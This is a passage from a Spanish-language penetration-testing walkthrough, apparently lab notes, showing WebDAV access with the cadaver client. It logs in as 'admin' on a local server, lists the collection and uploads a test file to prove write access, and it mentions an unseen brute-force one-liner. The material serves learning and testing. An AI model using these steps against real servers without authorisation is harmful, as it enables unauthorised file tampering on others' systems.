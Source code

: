 Explicación: en caso de no saber la contraseña y si el usuario podemos hacer fuerza bruta con este oneliner 

---

## Explotación y subida de archivos

Acción:

```bash
cadaver http://127.0.0.1
```

Resultado:

```bash
Authentication required for WebDAV on server `127.0.0.1':
Username: admin
Password: 
dav:/> ls
Listing collection `/': succeeded.
Coll:   DavTestDir_91iISb5pQ6yH0x              0  Jun 11 12:59
Coll:   DavTestDir_M6L5fe                      0  Jun 11 13:06
Coll:   DavTestDir_VyMXILt                     0  Jun 11 13:04
dav:/> 
```

Explicación: con la herramienta *cadaver* teniendo las credenciales podemos ganar acceso al servidor WebDAV. Desde aquí no es que podamos ejecutar comandos, pero si subir, borrar y modificar archivos


Acción: 

```bash
dav:/> put webdav_Pwned.txt 
Uploading webdav_Pwned.txt to `/webdav_Pwned.txt':
Progress: [=============================>] 100.0% of 33 bytes succeeded.
dav:/> 
```

![Captura](./Imágenes/web_2.png)

![Captura](./Imágenes/web_3.png)

Explicación: si en nuestra máquina atacante, creamos un archivo como el mencionado, y lo subimos desde la maquina víctima estando en el repositorio que queremos, usamos `put <nombre archivo>` y subimos dicho archivo, en este caos tenemos capacidad de 'listar directorios' en el navegador como vemos

---
